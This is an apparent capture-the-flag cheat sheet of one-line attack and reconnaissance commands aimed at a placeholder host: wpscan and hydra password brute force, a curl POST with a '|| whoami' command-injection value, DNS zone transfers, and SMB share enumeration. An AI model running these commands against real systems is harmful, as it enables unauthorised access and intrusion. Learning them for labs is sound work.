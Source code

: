 WPScan Brute Force (faster version):
`sudo wpscan --url http://$IP/ -U admin --passwords /usr/share/wordlists/rockyou.txt  -t 100 --password-attack wp-login`

Curl with urlencoded payloads:
`curl http://$IP/page.php -G --data-urlencode "value1=<h1>abc</h1>" --data-urlencode "value2=1234"`

curl with POST urlencoded payload:
`curl http://$IP/admin.php -X POST --data-urlencode "value1=|| whoami" --data-urlencode "submit=Submit Query"`

SSH Brute Force (Super slow, since max 4 threads. Use small wordlist):
`hydra -l root -P /usr/share/wordlists/rockyou.txt ssh://$IP -t 4 -s 22`

SSH prompts wrong key exchange method:
`ssh -oKexAlgorithms=diffie-hellman-group1-sha1 root@$IP`

DNSrecon Reverse Lookup (Recommended use of a valid domain):
`dnsrecon -r 127.0.0.0/24 -n $IP -d blah`

DNS Zone Transfer any domain:
`dig axfr @$IP`

DNS Zone Transfer specific domain (Recommended, if this does not work use dnsenum to brute force sub-domains):
`dig axfr domain.ctf @$IP`

Get ANY record from DNS server:
`dig ANY @$IP $IP`

Get a copy of all records from DNS server:
`while read p; do dig ANY @$IP domain.ctf| grep -A 4 "ANSWER SECTION\|ADDITIONAL SECTION"; done < domains.txt`

Brute Force DNS subdomains:
`dnsenum --dnsserver $IP -f /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt domain.ctf`

HTTPS view SSL certificate:
`openssl s_client -connect $IP:443 -showcerts`

HTTPS view SAN in SSL certificate:
`openssl s_client -connect $IP:443 | openssl x509 -noout -text | grep DNS:`

SMBmap with anonymous access, recurseviley list shares and list permissions:
`smbmap -H $IP -u anonymous -r --depth 5`

Nmap smb enum shares (may lis smb's local directory location):
`sudo nmap -script=smb-enum-shares.nse -p445 $IP`

Crackmapexec, will list SMB type, smb signing status, and domain (Helps with Active Directory):
`crackmapexec smb $IP --shares`

Mount an SMB Share:
```
mkdir mount
sudo mount $IP:/sharename mount
```
